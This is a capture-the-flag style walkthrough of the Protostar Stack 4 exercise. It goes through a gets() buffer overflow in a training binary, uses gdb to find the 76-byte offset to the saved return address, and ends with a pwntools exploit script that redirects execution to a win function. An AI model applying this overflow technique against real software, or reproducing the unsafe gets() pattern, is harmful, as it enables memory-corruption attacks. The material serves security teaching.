

# Stack 4


```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}

```
vulnerability :  usage of gets() function will lead to buffer overflow

goal :  overwrite the instruction pointer (eip) with the address of 'win' 


Let's start by looking the assembly code of the main function with gdb.

## static analysis 


```asm

0x08048408 <main+0>:	push   ebp
0x08048409 <main+1>:	mov    ebp,esp
0x0804840b <main+3>:	and    esp,0xfffffff0
0x0804840e <main+6>:	sub    esp,0x50
0x08048411 <main+9>:	lea    eax,[esp+0x10] <---- 2) eax points on [esp+0x10] (this is where 'buffer' start)
0x08048415 <main+13>:	mov    DWORD PTR [esp],eax  <--- 1) eax points on the content of 'buffer'
0x08048418 <main+16>:	call   0x804830c <gets@plt>
0x0804841d <main+21>:	leave  
0x0804841e <main+22>:	ret 

```

The stack will look like this  : 


```


  |  |---------------------|
  |  |                     |
  |  |    ......           |
  |  |---------------------|
  |  |                     | 
  |  |       Seip          | 
  |  |                     | 
  |  |---------------------|
  |  |                     |
  |  |       Sebp          |   
  |  |                     |
  |  |---------------------| <---- esp+0x50     ^                                             
  |  |                     |                    |        
  |  |       buffer        |                    |          
  |  |                     |                    |       
  |  |                     |                    |  0x50      
  |  |                     |                    |  
  |  |---------------------| <---esp+0x10       |    
  |  |       .....         |                    |  
  |  |---------------------| <-- esp            v  
  v                                              

```

So it seems that we need to add 0x50-0x10= 64  + 4 bytes for ebp + address of win to overwrite the save eip.

But if you have try to exploit it won't works , actually with forgot something during the static analysis : 

  `and    esp,0xfffffff0`  => this line is changing esp , the lowest bytes is change to 0  so our previous assumption is false.
    

Let's verify it with a dynamic analysis.


## Dynamic analysis

Let's see where is the save ebp in the stack first.

To do so : 

```gdb 

(gdb) set disassembly-flavor intel       # the default syntax is at&t i preferred intel one
(gdb) disas main       
Dump of assembler code for function main:
0x08048408 <main+0>:	push   ebp
0x08048409 <main+1>:	mov    ebp,esp
0x0804840b <main+3>:	and    esp,0xfffffff0
0x0804840e <main+6>:	sub    esp,0x50
0x08048411 <main+9>:	lea    eax,[esp+0x10]
0x08048415 <main+13>:	mov    DWORD PTR [esp],eax
0x08048418 <main+16>:	call   0x804830c <gets@plt>
0x0804841d <main+21>:	leave  
0x0804841e <main+22>:	ret    
End of assembler dump.
(gdb) b* 0x0804841d            # breaking just after the call of gets()
(gdb) r                        # run the program with 64 bytes, we just fill 'buffer'
Starting program: /opt/protostar/bin/stack4 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA


(gdb) x/x $ebp    # let's find where is the save ebp on the stack
0xbffff7c8:	0xbffff848


(gdb) x/25x $esp    # how close are we from the save ebp ?
0xbffff770:	0xbffff780	0xb7ec6165	0xbffff788	0xb7eada75
0xbffff780:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff790:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7a0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff7c0:	0x08048400	0x00000000	0xbffff848	0xb7eadc76
0xbffff7d0:	0x00000001


Ok so 8 bytes more and we can overwrite the save ebp and 4 bytes further we can 
overwrite the save eip


```
So the stack look more like this :


```


  |  |---------------------|
  |  |                     |
  |  |    ......           |
  |  |---------------------|
  |  |                     | 
  |  |       Seip          | 
  |  |                     | 
  |  |---------------------|
  |  |                     |
  |  |       Sebp          |   
  |  |                     |
  |  |---------------------|
  |  |                     |
  |  |   8 bytes padding   |
  |  |---------------------|
  |  |                     |                            
  |  |       buffer        |                              
  |  |                     |                           
  |  |                     |                            
  |  |                     |                      
  |  |---------------------|            
  |  |       .....         |                      
  |  |---------------------|               
  v                                              

```


Our payload will look like this : 

'A' * 64 + 'B' * 8 + 'C'*4 +  win_address

'A' * 64: to fill  'buffer'
'B' * 8 : 8 bytes more to overwrite the padding
'C' * 4: 4 bytes more to overwrite the save ebp
and finally we can overwrite the save eip with the win_address 

We can simplify it with :
'A'* 76  + win_address


To find the address of win : 

```
(gdb) disas win
Dump of assembler code for function win:
0x080483f4 <win+0>:	push   ebp
0x080483f5 <win+1>:	mov    ebp,esp
0x080483f7 <win+3>:	sub    esp,0x18
0x080483fa <win+6>:	mov    DWORD PTR [esp],0x80484e0
0x08048401 <win+13>:	call   0x804832c <puts@plt>
0x08048406 <win+18>:	leave  
0x08048407 <win+19>:	ret    
End of assembler dump.

```
Let's jump at 0x080483f4

## script: 


```python
from pwn import *

r = ssh(host='192.168.160.128', user='user', password='user')

my_ps = r.run(['/opt/protostar/bin/stack4'])

payload = b"A"*76 + p32(0x080483f4) 

my_ps.sendline(payload)

print(my_ps.recvline())

```

And we got our response : 




Thank you for reading, hope you learn something :) 